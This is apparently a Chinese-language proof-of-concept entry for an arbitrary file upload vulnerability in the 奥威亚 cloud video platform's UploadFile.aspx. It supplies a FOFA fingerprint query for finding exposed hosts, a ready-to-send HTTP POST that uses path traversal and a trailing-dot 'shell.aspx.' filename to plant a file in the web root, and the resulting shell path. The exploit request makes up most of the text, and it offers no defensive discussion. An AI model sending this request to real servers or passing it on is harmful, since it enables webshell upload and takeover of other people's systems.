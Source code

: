 # 奥威亚云视频平台UploadFile.aspx存在文件上传漏洞

奥威亚云视频平台UploadFile.aspx存在文件上传漏洞，攻击者可上传webshell获取服务器权限。

## fofa

```yaml
body="/Upload/DomainInfo/MaxAVALogo.png"
```

## poc

```java
POST /Services/WeikeCutOut/UploadFile.aspx?VideoGuid=/../../ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5666.197 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----sajhdjqwjejqwbejhqwbjebqwhje

------sajhdjqwjejqwbejhqwbjebqwhje
Content-Disposition: form-data; name="file"; filename="shell.aspx."
Content-Type: image/jpeg

1111
------sajhdjqwjejqwbejhqwbjebqwhje-
```

文件路径`http://ip/shell.aspx`



## 漏洞来源

- https://mp.weixin.qq.com/s/Kxmw41l8TK5jnaj63lyG0A